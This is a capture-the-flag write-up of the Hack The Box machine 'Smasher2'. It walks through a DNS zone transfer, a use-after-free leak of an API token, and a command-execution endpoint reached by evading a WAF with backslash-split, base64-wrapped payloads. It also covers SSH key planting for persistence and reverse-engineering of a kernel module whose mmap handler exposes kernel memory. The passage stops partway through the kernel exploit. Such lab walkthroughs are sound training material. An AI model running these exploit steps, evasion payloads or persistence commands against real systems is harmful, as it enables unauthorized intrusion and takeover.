









<p align="center">
    
</p>

# Summary

* A DNS Zone Transfer reveals a new subdomain which is used in *Virtual Host Routing*,
  revealing a new web application available in the web server.

* To get access to the machine we need to exploit a *Use After Free* bug in the Python
  web applicaiton to leak an API token and bypass a *WAF* in order to execute arbitrary
  commands.

* Finally, to root the machine, we need to exploit a custom Kernel Module that implements
  a *char device* with a bug in the *mmap* handler function.

# Initial Enumeration

## NMAP scan

```
$ nmap -p- -Pn -sC -sV --max-retries=1 -T4 smasher2.htb

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 23:a3:55:a8:c6:cc:74:cc:4d:c7:2c:f8:fc:20:4e:5a (RSA)
    |   256 16:21:ba:ce:8c:85:62:04:2e:8c:79:fa:0e:ea:9d:33 (ECDSA)
    |_  256 00:97:93:b8:59:b5:0f:79:52:e1:8a:f1:4f:ba:ac:b4 (ED25519)
    53/tcp open  domain  ISC BIND 9.11.3-1ubuntu1.3 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.11.3-1ubuntu1.3-Ubuntu
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: 403 Forbidden
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap shows three open TCP ports:

* ```PORT 22```: OpenSSH (7.6p1).
* ```PORT 53```: ISC BIND DNS server (9.11.301ubuntu1.3-Ubuntu).
* ```PORT 80```: Apache HTTP daemon (2.4.29).


## BIND DNS server

Request a *Zone Transfer* to get a copy of the records available in the zone
```smasher2.htb```.

```
$ dig axfr smasher2.htb @10.10.10.135

; <<>> DiG 9.11.3-1ubuntu1.11-Ubuntu <<>> axfr smasher2.htb @10.10.10.135
;; global options: +cmd
smasher2.htb.           604800  IN      SOA     smasher2.htb. root.smasher2.htb. 41 604800 86400 2419200 604800
smasher2.htb.           604800  IN      NS      smasher2.htb.
smasher2.htb.           604800  IN      A       127.0.0.1
smasher2.htb.           604800  IN      AAAA    ::1
smasher2.htb.           604800  IN      PTR     wonderfulsessionmanager.smasher2.htb.
smasher2.htb.           604800  IN      SOA     smasher2.htb. root.smasher2.htb. 41 604800 86400 2419200 604800
;; Query time: 59 msec
;; SERVER: 10.10.10.135#53(10.10.10.135)
;; WHEN: Tue Dec 31 15:26:23 UTC 2019
;; XFR size: 6 records (messages 1, bytes 242)
```

There is an interesting subdomain to test out for *Virtual Host Routing* in the web
server:
* ```wonderfulsessionmanager.smasher2.htb```

**NOTE**: *We can take a good guess at the domain ```smasher2.htb```, the scheme ```<box
name>.htb``` is widely used as a domain name amongst the Hack The Box machine authors.*

## HTTP server

* ```smasher2.htb```: The main page is the *Apache2 Ubuntu Default Page*. Directory 
  fuzzing shows two resources:

  * ```/index.html (200)```: The main page.
  * ```/backup (200)```: A directory that contains two files:
  [*auth.py*](resources/box/backup/auth.py) and [*ses.so*](resources/box/backup/ses.so).
  These files contain the source code of a *Flask* web application and a compiled *shared
  object* (used by the web application) respectively. 

* ```wonderfulsessionmanager.smasher2.htb```: The main page is *DZONERZY Session 
  Manager*. This site contains the following descriptive text:
  
    >DSM is the 'almost' next generation of user authentication, it's based on Python
    >2.7 and allow to setup a multiple-users login access in just a few clicks...
    >discover now how.

  There is a *Try Login* tab which is the only element that doesn't reference to the top
  of the page. This tab redirects to a login page:

<p align="center">
    
</p>

# Initial Foothold

According to the source code we found earlier, the endpoint ```/api/<key>/job``` allows
us to execute a command on the web server:

```python
@app.route("/api/<key>/job", methods=['POST'])
def job(key):
    ret = {"success": None, "result": None}
    manager = safe_get_manager(session["id"])
    if manager.secret_key == key:
        data = request.get_json(silent=True)
        if data and type(data) == dict:
            if "schedule" in data:
                out = subprocess.check_output(['bash', '-c', data["schedule"]])
                ret["success"] = True
                ret["result"] = out
    # [...]
    return jsonify(ret)
```

In order to use this endpoint we need a valid API token, which is the *secret_key*
attribute of the SessionManager. This token is crafted when a new instance of the
SessionManager is created and is shown to the user after a successful login. However,
there are, at lest, two ways of getting a valid API token without having login
credentials.

## API Key - Exploiting a UAF

The bug we are going to exploit here is very similar to the *Use After Free* primitive
present in the heap management on the C language. Basically, we are going to leak the
*secret_key* by exploiting a dangling pointer to an object which has already been
*freed* by the garbage collector.

The bug lies in the following codepath inside the method 
```SessionManager.check_login```, available in the module ```ses.so```:

<p align="center">
    
</p>

When our login count is greater than nine, we get blocked and the method returns a list,
```is_logged```, which contains a boolean value and a dictionary with the login
credentials, ```data```. Before we dig into the problem, lets take a look at how the
```data``` object was created:

<p align="center">
    
    
</p>

The function ```get_dict_key``` uses ```PyDict_GetItem``` to retreive an item from the
dictionary ```data_dict```. According to the
[*C-API documentation*](https://docs.python.org/2/c-api/dict.html#c.PyDict_GetItem):

> PyObject* PyDict_GetItem(PyObject *p, PyObject *key)
>
>     Return value: Borrowed reference.
>
>     Return the object from dictionary p which has a key key. Return NULL if the key 
>     *key* is not present, but without setting an exception.

The function ```PyDict_GetItem``` returns a poiner with a *borrowed reference*, this
means that ```data``` does not own a reference to the object (the reference count was
not increased). If its reference count goes to zero and the garbage collector picks it
up, that pointer will become a *dangling pointer*. As seen in the vulnerable codepath,
when the pointer that contains the ```data``` object is stored in the list
```is_logged```, its reference count is not increased. Moreover, just before returning
the list to the caller, ```data```'s reference count is decreased using the macro
```Py_DECREF```.

<p align="center">
    
</p>

At this point, the reference count for the object ```data``` will be down to zero and
the garbage collector will dispose it, freeing the heap memory space used by this object.
Now, the pointer inside ```is_logged[1]``` will point to a location that can be used by
another object. To see how we can take advantage of this issue we have to take a look at
the source code of the web application ```auth.py```.

```python
@app.route('/auth', methods=['POST'])
def login():
    ret = {"authenticated": None, "result": None}
    manager = safe_get_manager(session["id"])
    data = request.get_json(silent=True)
    if data:
        try:
            tmp_login = dict(data["data"])
        except:
            pass
        tmp_user_login = None
        try:
            is_logged = manager.check_login(data)
            secret_token_info = ["/api/<api_key>/job", manager.secret_key, int(time.time())]
            try:
                tmp_user_login = {"username": tmp_login["username"], "password": tmp_login["password"]}
            except:
                pass
            if not is_logged[0]:
                ret["authenticated"] = False
                ret["result"] = "Cannot authenticate with data: %s - %s" % (is_logged[1], "Too many tentatives, wait 2 minutes!" if manager.blocked else "Try again!")
    # [...]
    return jsonify(ret)
```

The POST request sent to the application looks something like this:

```javascript
data = {
    'action': 'auth',
    'data': {
        'username': 'the username',
        'password': 'the password',
    }
}
```

Here is a detail description of the vulnerability:

* The POST request gets deserialized and stored in the variable ```data```. Inside that
  dictionary, ```data["data"]``` contains the reference to the dictionary that contains
  our user credentials.

* ```tmp_login``` gets a copy of ```data["data"]```, this does not increase the reference
  count because a new object gets created.

* Following the vulnerable codepath, in ```manager.check_login(data)```, the reference
  count for ```data["data"]``` gets decreased to zero. As we've seen in the assembly
  code, the return value ```is_logged``` contains a pointer (with a borrowed reference)
  to ```data["data"]``` but, since that object has been disposed by the garbage
  collector, ```is_logged[1]``` now contains a *dangling pointer*.

* A list that contains the *secret_key* is created and stored in the variable
  ```secret_token_info```. It is important to note that this happens **after**
  ```data["data"]``` has been freed.

* Finally, upon unsuccessful login, ```is_logged[1]``` is formatted into the string
  ```ret["result"]```, which will be returned to the user in the server response. This
  pointer will point to a previously freed memory area that can potentially be used by a
  new object at this point.

If we manage to force the allocation of the object ```secret_token_info``` into the space
that was used by ```data```, the list ```secret_token_info``` will be formatted into the
string and returned to the web client, leaking the value of the *secret_key*. Lets walk
through the exploit step by step:

1. In order to reach the vulnerable codepath we need to fail 10 login attempts.

```python
s = requests.Session()
s.headers.update({'Content-Type': 'application/json'})
s.get('http://wonderfulsessionmanager.smasher2.htb')  # Get a session cookie

data = {
    'action': 'auth',
    # send invalid credentials
    'data': {'username': 'matterbeam', 'password': 'matterbeam'},
}

for i in range(10):
    s.post('http://wonderfulsessionmanager.smasher2.htb/auth', data=json.dumps(data))
```

2. Attempt to login one more time. This time, instead of sending regular authentication
   credentials, send a list of the same format as ```secret_token_info```.

```python
data = {
    'action': 'auth',
    # send a list [str, str, int]
    'data': ['matterbeam', 'matterbeam', 123456789],
}

s.post('http://wonderfulsessionmanager.smasher2.htb', data=json.dumps(data))
```

3. Grab the *secret_key* from the server response.
   
<p align="center">
    
</p>

## API key - Logic bug

There is another bug in the code that handles user authentication. This bug is a *logic*
*bug*, which means that there is a flaw in the way the program handles some data
structures rather than a bug which causes memory corruption or manipulaion.

This is how the program checks if the user credentials are valid (from 
```SessionManager.check_login```):

<p align="center">
    
</p>

* The *username* is compared against the result of ```get_internal_usr```, which looks
  like this:

  <p align="center">
    
  </p>

* The *password* is compared against the result of ```get_internal_pwd```, which looks
  like this:

  <p align="center">
    
  </p>

**Both** ```get_internal_usr``` and ```get_internal_pwd``` return the same element from
the list attribute ```manager.user_login```. If we look at how the ```SessionManager```
instance is initialized, that value corresponds to the login *username*, the one that is
redacted from the code. With this in mind, we just need to supply a valid username as
both the username and password parameters in the authentication request. Since usernames
are not that hard to bruteforce, another attacking vector is opened to us.

*Note that I didn't want to waste time on this path since I've already gained access to
the API token and bruteforce attacks usually end up destroying the fun for everyone
trying to complete the box, so I didn't write a script to solve this problem. However,
just out of curiosity, I checked the source code once I get access to the machine to see
if the username was even guessable:*

```python
login = ["Administrator", "SuperSecretAdminPWD123!"]
```

*It turns out that the username is, in fact, very commonly used as a default admin
account. A basic dictionary attack with the right wordlist would have cracked this
pretty easily.*

## Command Execution

With access to the API token, we can execute commands on the machine using the
```/api/<key>/job``` endpoint as seen earlier. According to the code, to successfully
use this endpoint, we have to supply a json-encoded dictionary with the key
```schedule``` and the command we want to execute as the value for that key.

```bash
curl -s -X POST -H 'Content-Type: application/json' -b "session=$SESSION" \
    --data '{"schedule": "id"}' "http://wonderfulsessionmanager.smasher2.htb/api/$TOKEN/job"

# Output:
# 
# <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
# <html><head>
# <title>403 Forbidden</title>
# </head><body>
# <h1>Forbidden</h1>
# <p>You don't have permission to access /api/fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8/job
# on this server.<br />
# </p>
# <hr>
# <address>Apache/2.4.29 (Ubuntu) Server at wonderfulsessionmanager.smasher2.htb Port 80</address>
# </body></html>
```

Some of the requests result in a ```403 Forbidden``` response. There is not code to
handle this type of behaviour on **auth.py** so there must be some kind of external *WAF*
in place. The *WAF* appears to block some of the requests that contain blacklisted words
such as *id*. However, it is easy to bypass if we break the words using backslashes like
this (it works with *quotes* instead of backslashes as well):

```bash
i\d        # Bash interprets it as 'id'.
l\s -\la   # Bash interprets it as 'ls -la'.

i''d       # Same as i\d
l''s -''la # Same as l\s -\la

curl -s -X POST -H 'Content-Type: application/json' -b "session=$SESSION" \
    --data '{"schedule": "i\\d"}' "http://wonderfulsessionmanager.smasher2.htb/api/$TOKEN/job"

# Output:
#
# {"result":"uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)\n","success":true}
```

Knowing this, it is easy to write a script to obfuscate our payload and execute any 
command we want. To avoid further filtering on characters we cannot escape using this
method, we can *base64* encode the command and execute it on the box like this:

```python
def rce(token, cmd):
    # New requests.Session with a session cookie from the web app and the
    # required headers (See source code for definition).
    s = Session()

    # Encode the payload.
    encoded = base64.b64encode(bytes(cmd, 'utf-8')).decode('utf-8')
    # Same as: base64 -d <<< {encoded} | sh
    payload = f'bas\\e64 -\\d <<<{encoded}|s\\h'

    r = s.post(f'/api/{token}/job', {'schedule': payload})
    print(json.loads(r.text)['result'])
```

The complete script is available in [**rce.py**](resources/scripts/rce.py).

## Stabilizing the Foothold

With access to the machine, we can add our public key to the *authorized_keys* file and
log in through SSH:

```bash
# Base64-encode the public key.
PUB_KEY_B64="$(base64 -w0 /path/to/id_rsa.pub)"

# Create the ~/.ssh directory.
./rce.py -t $TOKEN -c "mkdir ~/.ssh"

# Upload our public key.
./rce.py -t $TOKEN \
    -c "echo \"\n$(base64 -d <<< $PUB_KEY_B64)\n\" >> ~/.ssh/authorized_keys"

# Connect to the machine.
ssh -i /path/to/id_rsa dzonerzy@smasher2.htb
```

*With access as the user dzonerzy, we can read the ```user.txt``` flag*.

# Privilege Escalation

The user *dzonerzy* belongs to the group *adm*, which has access to this particular log
file:

```
dzonerzy@smasher2:~$ id
uid=1000(dzonerzy) gid=1000(dzonerzy) groups=1000(dzonerzy),4(adm),...

dzonerzy@smasher2:~$ find / -group adm 2>/dev/null
[...]
/var/log/auth.log
```

This log file contains very interesting data such as commands that were executed using
sudo, we are particularly interested in those who where executed as root:

```
dzonerzy@smasher2:~$ strings /var/log/auth.log | grep -E 'sudo.*USER=root.*COMMAND' | \
    grep -oE 'COMMAND=.*' | cut -d'=' -f2 | sort -u

/bin/chown root:root banner
/bin/su
/bin/systemctl enable rc.local.service
/sbin/insmod /lib/modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko
/usr/bin/apt-get update
/usr/bin/apt-get upgrade
/usr/bin/apt install apache2 python-pip
/usr/bin/id
```

The only command which doesn't look like a standard box setup procedure is:

* ```/sbin/insmod /lib/modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko```

This command inserts a new module into the Linux Kernel. Since kernel modules are a
possible path to privilege escalation, it's worth taking a look at this module to see
if it can be exploited somehow.

## Analyzing the DHID Kernel Module

```
dzonerzy@smasher2:~$ modinfo /lib/modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko
filename:       /lib/modules/4.15.0-45-generic/kernel/drivers/hid/dhid.ko
version:        1.0
description:    LKM for dzonerzy dhid devices
author:         DZONERZY
license:        GPL
srcversion:     974D0512693168483CADFE9
depends:        
retpoline:      Y
name:           dhid
vermagic:       4.15.0-45-generic SMP mod_unload 
```

Since this looks like a custom module developed by one of the authors of this box, we
will have to reverse engineer it to unravel its details. The module appears to be some
kind of *device driver*, lets look at the ```/dev``` directory for a device related to
this module:

```
dzonerzy@smasher2:/dev/shm$ ls -l /dev/dhid
crwxrwxrwx 1 root root 243, 0 Jan  8 07:05 /dev/dhid
```

As the first ```c``` in the output of ```ls -l``` suggest, this is, in fact, a
*char device*. Let's have a deeper look at it with *radare2* to see what 
*File Operations* this device implements. The first thing the module does is register
a new *char device*:

```
╭ (fcn) entry0 325
│   entry0 ();
│           0x080001fb      e8e21a0000     call init_module            ; RELOC 64 init_module @ 0x080001fb + 0x0 ; [04] -r-x section size 325 named .init.text
│           0x08000200      55             push rbp
│           0x08000201      48c7c7cb0500.  mov rdi, 0x80005cb
│           0x08000208      4889e5         mov rbp, rsp
│           0x0800020b      e8e21a0000     call printk
│           0x08000210      31f6           xor esi, esi
│           0x08000212      31ff           xor edi, edi
│           0x08000214      49c7c0200700.  mov r8, obj.fops            ; struct file_operations
│           0x0800021b      48c7c1e80500.  mov rcx, str.dhid           ; "dhid"
│           0x08000222      ba00010000     mov edx, 0x100              ; 256
│           0x08000227      e8e61a0000     call __register_chrdev
│           0x0800022c      85c0           test eax, eax
```

This char device is the ```/dev/dhid``` file we spot earlier and the
```file_opeartions``` structure associated with this device is called ```fops```. We can
have a closer look at it with radare:

```
[entry0]> is~fops
022 0x00000720 0x08000720  LOCAL    OBJ  256 fops
[entry0]> px @ obj.fops
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x08000720  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x08000730  7001 0008 0000 0000 0000 0000 0000 0000  p...............
0x08000740  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x08000750  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x08000760  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x08000770  0000 0000 0000 0000 c000 0008 0000 0000  ................
0x08000780  0000 0000 0000 0000 a001 0008 0000 0000  ................
0x08000790  0000 0000 0000 0000 9000 0008 0000 0000  ................
0x080007a0  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x080007b0  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x080007c0  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x080007d0  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x080007e0  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x080007f0  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x08000800  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x08000810  0000 0000 0000 0000 0000 0000 0000 0000  ................
```

The ```file_operations``` structure is a collection of function pointers that implement
different operations supported by the device. Since the binary is not stripped, we can
resolve the name of the function for each function pointer and translate that bunch of
bytes into the following C code:

```c
struct file_operations fops =
{
    .read = dev_read,         /* retreive data from the device */
    .mmap = dev_mmap,         /* request a mapping of the device memory to a process's address space */
    .open = dev_open,         /* open the device and create the file structure */
    .release = dev_release,   /* invoked when the file structure is released */
}
```

The ```dev_read``` function, which allows us to retreive data from the char device, is
pretty simple and has only one job:

```asm
[sym.dev_read]> pdf
╭ (fcn) sym.dev_read 44
│   sym.dev_read (int32_t arg2);
│           ; arg int32_t arg2 @ rsi
│           0x08000170      e86d1b0000     call __fentry__
│           0x08000175      55             push rbp
│           0x08000176      4889f7         mov rdi, rsi                ; arg2
│           0x08000179      ba30000000     mov edx, 0x30               ; '0' ; 48
│           0x0800017e      48c7c6300400.  mov rsi, str.This_is_the_right_way__please_exploit_this_shit ; 0x8000430 ; "This is the right way, please exploit this shit!"
│           0x08000185      4889e5         mov rbp, rsp
│           0x08000188      e8751b0000     call _copy_to_user
│           0x0800018d      83f801         cmp eax, 1                  ; 1
│           0x08000190      4819c0         sbb rax, rax
│           0x08000193      83e00f         and eax, 0xf                ; 15
│           0x08000196      4883e80e       sub rax, 0xe                ; 14
│           0x0800019a      5d             pop rbp
╰           0x0800019b      c3             ret
```

Requesting data from the device will yield the following text telling us we are on the
right track:

* ```This is the right way, please exploit this shit!```

The functions ```dev_open``` and ```dev_release``` don't do anything particularly
interesting. However, ```dev_mmap``` has the key to exploit this module. This is a rough
translation I made to C code while I was reverse engineering the assembly:

```c
int dev_mmap ( struct file *fp, struct vm_area_struct *vma )
{
    int ret;
    long size = vma->vm_end - vma->vm_start;
    unsigned long offset = vma->vm_pgoff;

    printk(KERN_INFO "DHID Device mmap(vma_size: %x, offset: %x)", size, offset);

    if ( (size > 0x10000) || (offset > 0x1000) || (size + offset > 0x10000){
        printk(KERN_INFO "DHID mmap failed, requested too large a chunk of memory");
        return -5;
    }

    if ( ret = remap_pfn_range( vma, vma->vm_start, offset, size, vma->vm_page_prot ) ) {
        printk(KERN_INFO "DHID mmap failed");
        return -5;
    }

    printk(KERN_INFO "DHID mmap OK");

    return ret;
}
```

## Exploiting the DHID Kernel Module

The value ```vma->vm_pgoff``` is passed directly as the *physical address* to the
function ```remap_pfn_range```. This value is controlled by the user and the only
sanitation check made is that it can't be greater than ```0x1000```. Moreover, the size
of the chunk of memory requested cannot be greater than ```0x10000``` but this comparison
is *signed* and can be easily bypassed using a negative size to request a huge amount of
memory. Putting this all together, we can map a large portion of kernel memory into our
process's address space.

Once we have mapped the kernel memory into our process's address space, we can perform
some basic heuristics to find the ```cred``` structure since we can predict the value
for eight of its members:

```c
/* linux/cred.h */
struct cred {
    /* [...] */
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	unsigned	securebits;	/* SUID-less security management */
	kernel_cap_t	cap_inheritable;    /* caps our children can inherit */
	kernel_cap_t	cap_permitted;	    /* caps we're permitted */
